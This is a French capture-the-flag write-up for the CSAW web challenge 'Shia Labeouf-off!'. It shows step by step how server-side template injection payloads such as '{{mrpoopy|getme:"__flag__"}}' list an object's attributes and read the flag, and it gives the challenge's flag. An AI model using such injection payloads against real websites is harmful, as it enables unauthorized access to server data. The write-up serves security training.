



# Shia Labeouf-off! - web - 150 pts

## Désignation

Do it

Just do it

Don't let your dreams be dreams

Yesterday you said tomorrow

So just do it

Make your dreams come true

Just do it

Pick 1: http://web.chal.csaw.io:5487 http://web.chal.csaw.io:5488 http://web.chal.csaw.io:5489 http://web.chal.csaw.io:5490

## Solution

On se connecte au premier lien proposé et on arrive sur cette page :

En se baladant sur le site, on arrive vite sur l'onglet Ad-Lib qui nous dit ceci :

En injectant la commande `{{*}}` le site nous renvoie une erreur . En fouillant dans le code on tombe sur quelque chose d'intéressant :

En effet, on remarque que l'injection `mrpoopy` est possible . On envoie donc `{{mrpoopy}}` , ce qui vous donne :

    <ad-lib.someclass.Woohoo instance at 0x7fa795932680>

Puis on renvoie `{{mrpoopy|listme}}` et cela nous renvoie :

    ['Woohoo', '__doc__', '__flag__', '__module__']

Nous avons donc la méthode `__flag__` qui a l'air intéressante ! Pour afficher sont contenu, on envoie la commande `{{mrpoopy|getme:"__flag__"}}` .

    flag{wow_much_t3mplate}

FLAG : flag{wow_much_t3mplate}
